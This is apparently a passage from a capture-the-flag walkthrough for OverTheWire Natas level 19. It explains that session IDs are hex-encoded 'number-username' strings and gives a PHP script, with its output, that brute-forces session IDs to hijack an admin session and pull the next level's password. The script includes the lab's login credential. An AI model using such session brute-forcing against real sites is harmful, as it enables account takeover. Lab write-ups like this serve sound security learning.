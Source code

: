 Ha! I bet that dash is to separate the username from the session ID. Let's try a few more just to make sure.

`626-testing`, `318-moretesting`, `223-makingsurethisisntrandom`

Alright, I think we've verified that is our username input after the dash. Something else I've noticed in these tests: I haven't seen any numbers higher than 640. I bet the limit is still the same as the last challenge... In fact, I bet the only difference is that dash and username tacked onto the end of the session ID, and hex-encoding the whole thing. Let's tweak our PHP from last challenge and see if we're right.

~~~~
<?php

function get($url, $i)
{
    $username = "natas19";
    $password = "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n"
                       . "authorization: Basic $string\r\n"
                       . "cookie: PHPSESSID=$i",
            'method'  => 'GET'
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}

for ($i = 0; $i < 641; $i++)
{
    $session = bin2hex("$i-admin");
    echo "Checking $session\r\n";
    $response = get("http://natas19.natas.labs.overthewire.org", $session);
    if (strpos($response, "You are an admin."))
    {
        $password = substr($response, strpos($response, "Password: ") + 10, 32);
        exit("Got it! Session ID $session is Admin.\r\nNatas20 Password: $password");
    }
    elseif (!strpos($response, "You are logged in as a regular user."))
    {
        var_dump($response);
    }
}
~~~~

And... run!

~~~~
$ php natas19.php
...
Checking 3238302d61646d696e
Checking 3238312d61646d696e
Got it! Session ID 3238312d61646d696e is Admin.
Natas20 Password: [censored]
~~~~
